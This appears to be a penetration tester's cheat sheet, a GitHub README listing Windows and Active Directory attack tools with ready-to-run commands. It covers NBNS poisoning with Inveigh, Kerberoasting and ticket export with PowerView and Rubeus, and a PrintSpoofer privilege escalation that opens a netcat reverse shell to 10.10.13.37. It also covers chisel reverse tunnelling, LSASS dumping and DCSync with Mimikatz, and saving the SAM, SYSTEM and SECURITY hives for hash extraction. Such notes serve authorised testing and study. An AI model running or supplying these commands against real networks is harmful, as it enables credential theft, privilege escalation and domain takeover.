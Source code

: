 # tools

### Inveigh.ps1
https://github.com/Kevin-Robertson/Inveigh/blob/master/Inveigh.ps1
Similar to Responder, for powershell
PS C:\> Import-Module .\Inveigh.ps1
PS C:\> (Get-Command Invoke-Inveigh).Parameters
PS C:\> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y


### PowerView.ps1
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
Replacements for various Windows net*
PS C:\> import-module .\PowerView.ps1
PS C:\> Get-DomainPolicy
PS C:\> Get-DomainUser * -spn | select samaccountname  #to extract TGS tickets
PS C:\> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\all_tickets.csv -NoTypeInformation  #export to csv


### nc.exe
https://github.com/int0x33/nc.exe/
netcat Win binary, for port listening and reverse shell 


### printspoofer
To escalate with SeImpersonatePrivilege & SeAssignPrimaryTokenPrivilege
PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"


### Rubeus
https://github.com/GhostPack/Rubeus
Kerberoasting from windows machine
PS C:\> .\Rubeus.exe kerberoast /stats  #to gather some stats
PS C:\> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap  #/nowrap to copy hash easily
PS C:\> .\Rubeus.exe kerberoast /user:"username" /nowrap  #to test spesific user
PS C:\> .\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap  #RC4 encryption when requesting a new service ticket


### SharpHound.exe
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
To gather AD data for Bloodhound


### Snaffler.exe
https://github.com/SnaffCon/Snaffler
Credential Enumeration
PS C:\> .\Snaffler.exe  -d <DomainName> -s -v data
  

### Chisel
https://github.com/jpillora/chisel
Pre-compiled Chisel for port-forwarding, both linux and windows
sudo ./chisel server --reverse -v -p 1234 --socks5
./chisel.exe client -v <YourIP>:1234 R:socks
  

### Lazagne
https://github.com/AlessandroZ/LaZagne
checks for passwords in common locations

  
### Linpeas / Winpeas
Checks for possible priv esc for linux and windows
  
  
### Mimikatz
https://github.com/ParrotSec/mimikatz
  
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords

#use lsass.DMP and put results to lsass.txt
#lsass.DMP can be acquired with right click lsass.exe and create dump method from task manager in details
mimikatz # sekurlsa::minidump lsass.DMP
mimikatz # log lsass.txt
mimikatz # sekurlsa::logonPasswords

#for dcsync abuse
mimikatz # lsadump::dcsync
mimikatz # lsadump::dcsync /user:<UserName>  #for spesific user only 


reg save HKLM\SAM sam.h  #to Dump SAM
reg save HKLM\SYSTEM sys.h  #to Dump SYSTEM
reg save HKLM\SECURITY sec.h  #to Dump SECURITY
mimikatz # lsadump::sam sys.h sam.h sec.h  #get hashes from these files with mimikatz

  
  
  
  
  
  
  
  
  










